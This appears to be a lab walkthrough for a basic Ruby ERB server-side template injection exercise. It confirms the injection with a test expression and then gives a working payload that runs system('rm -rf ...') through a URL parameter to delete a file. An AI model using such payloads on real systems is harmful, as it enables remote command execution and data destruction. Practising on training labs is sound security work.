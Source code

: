 # Lab 1 : Basic ERB SSTI

## Decription
```
To solve the lab, review the ERB documentation to find out how to execute arbitrary code,
then delete the morale.txt file from Carlos's home directory. 
```
## Solution
* While visiting any product we create a request like   ``` /?productId=15```
* When we change the product id to "1" then we get an error message ```/?message="Unfortunately the product is out of stock"```
* We try something like ```/?message=<%=7*7%>``` (URL Encoded) and get "49" printed. Hence SSTI is confirmed
* To solve the lab we use the system() function in ruby. ```/?message=<%=system('rm -rf /home/carlos/morale.txt')%>``` (URL encoded)

